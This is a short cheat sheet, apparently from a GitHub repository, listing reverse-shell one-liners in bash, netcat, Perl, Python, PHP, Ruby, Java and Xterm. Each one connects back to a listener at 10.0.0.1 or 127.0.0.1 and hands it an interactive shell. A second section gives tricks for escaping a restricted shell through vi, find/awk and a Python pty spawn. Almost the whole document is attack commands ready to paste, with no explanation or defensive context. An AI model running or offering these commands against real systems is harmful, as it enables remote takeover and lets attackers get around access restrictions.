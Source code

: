 # Reverse Shell Cheat Sheet
### bash<br/>
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

### Netcat<br/>
nc -e /bin/sh 127.0.0.1 1234

### Perl<br/>
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### Python<br/>
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP<br/>
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

### Ruby<br/>
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Java<br/>
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()

### Xterm<br/>
xterm -display 10.0.0.1:1 xhost +targetip

----
## Bypass Resctricted Shell

:set shell=/bin/bash

::shell

:! /bin/bash

find / -name blahblah —exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

'! /bin/sh'

'!/bin/sh

'!bash'

echo "evil script code" | tee script.sh

python -c 'import pty; pty.spawn("/bin/bash")'


